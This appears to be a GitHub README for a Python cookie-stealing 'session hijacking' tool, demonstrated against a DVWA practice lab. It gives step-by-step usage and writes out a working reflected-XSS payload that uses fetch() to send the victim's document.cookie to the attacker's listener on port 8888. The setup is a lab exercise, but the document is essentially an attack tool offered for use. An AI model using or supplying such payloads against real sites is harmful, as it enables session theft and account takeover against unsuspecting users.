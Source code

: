 # Session Hijacking Tool
This tool steals the cookie of any xss vulnerable website when payload is injected in user input field

# Technologies
python

# Installation & Usage:
1. clone the repo: https://github.com/pranavpenugonda/session-hijacking.git
2. run cookieSteal.py-> python3 cookieSteal.py
3. options will be displayed to the user
4. start server-> start localhost 8888
5. open browser and open xss vulnerable website like "http://lab.awh.zdresearch.com/chapter1/DVWA/vulnerabilities/xss_r/"
6. it has user input field, enter the payload
7. sample payload: <script>fetch(`http://localhost:8888?data=${document.cookie}`)</script>
8. after clicking on submit, check on terminal and you can see the cookie
   ![image](https://github.com/pranavpenugonda/session-hijacking/assets/92200984/f15892fa-93b8-4c49-9ff5-72d4f5d2c421)
   ![image](https://github.com/pranavpenugonda/session-hijacking/assets/92200984/a35c1b43-ef04-446f-acef-591f1653fb87)
   ![image](https://github.com/pranavpenugonda/session-hijacking/assets/92200984/bc461465-73d1-4cbe-98c1-c76ab6f56fa4)
